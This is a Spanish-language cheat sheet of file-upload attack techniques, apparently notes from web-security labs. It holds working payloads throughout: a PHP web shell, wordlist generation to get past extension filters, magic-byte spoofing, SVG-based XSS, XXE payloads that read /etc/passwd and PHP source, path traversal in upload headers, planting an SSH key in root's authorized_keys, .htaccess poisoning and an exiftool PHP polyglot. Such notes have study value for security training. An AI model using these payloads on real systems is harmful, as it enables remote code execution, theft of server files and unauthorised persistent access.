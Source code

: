 #### Shells php útiles:

        <?php system($_GET['cmd']); ?>
        <?php echo file_get_contents('/home/carlos/secret'); ?>




#### Generar bash con wordlists para bypassear whitelists:

        for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
            for ext in '.php' '.phps' '.phtml' '.phar' '.php3' '.phtm'; do
                echo "shell$char$ext.jpg" >> wordlist.txt
                echo "shell$ext$char.jpg" >> wordlist.txt
                echo "shell.jpg$char$ext" >> wordlist.txt
                echo "shell.jpg$ext$char" >> wordlist.txt
            done
        done


#### Siempre agregar, previo al código malicioso un "tipo de archivo" en base a los magicnumbers:
        "
        GIFF8
        <?php .... ?>

#### XSS:

Añadir código malicioso en la metadata de los archivos.
sgv example:

        <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
            <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
            <script type="text/javascript">alert(window.origin);</script>
        </svg>


#### XXE:

leer un archivo en el servidor

        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <svg>&xxe;</svg>

#### Ver código fuente de un archivo php:

        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
        <svg>&xxe;</svg>


### File upload wth path transversal:
Podemos encontrarnos con que en algunos casos logramos subir un archivo malicioso, pero al momento de ejecutarlo en 
el servidor, este está impedido de ejecutarse mostrandonos el texto plano (si lo escondimos en una foto podríamos
intentar ejecutarla y que nada pase).
Esto se debe a que algunos servidores limitan la ejecución de código en directorios puntuales.
Para esto podemos combinar el path transversal agregándolo en la cabecera Content-Disposition:

###### Content-Disposition: form-data; name="avatar"; filename="../exploit.php" (debemos seguir todos los procedimientos de evación de filtros de path transversal si es que el servidor tiene alguna validación).
Luego, con el mismo path transversal podemos llamarlo. (puede que al momento de llamarlo, si debimos encodear el path}
transversal en la subida, no debamos encodearlo en la ejecución).

### RSA implant

Si contamos con path transversal en el upload podríamos crear una rsa key e implantarsela a un usuario.

        ssh-keygen -t rsa


Luego metemos el .pub en el archivo uthorized_keys

        cat pop.pub > authorized_keys 

Luego subimos el archivo aprovechando el path transversal hasta una carpeta de un usuario. Ej:

        ../../../../../../../root/.ssh/authorized_keys

Luego nos logueamos por ssh con la rsa_id

#### Blacklist bypass:
Fuerza bruta de extensión:
Si nos encontramos un filtro de blacklist, podemos hacer fuerza bruta sobre la extención del archivo malicioso buscando una extención permitida.

#### .htaccess poisoning/spoofing:

Podemos encontrarnos que no hay una extensión permitida dentro de las shells que necesitamos o que, aunque hubiera alguna, no hubiera permisos de ejecución. 
Podemos subir un archivo .htaccess envenenado que nos permita la ejecucion:

##### 1)repetimos la subida cabiando los siguientes parámetros:
        filename= .htaccess
        content-type = text/plain
        payload= AddType application/x-httpd-php .l33t (con esto habilitamos la ejecución de archivos con la extensión l33t)

##### 2)Subimos nuevamente la shell con la extensión ".l33t" y ejecutamos.

#### Recursión de extensiones:

Podemos también, si hay un filtro que busque por palabras puntuales y las elimine, sumar recursión a la extensión de
los archivos: shell.p.phphp

#### Polyglot php en una imagen:

        exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php






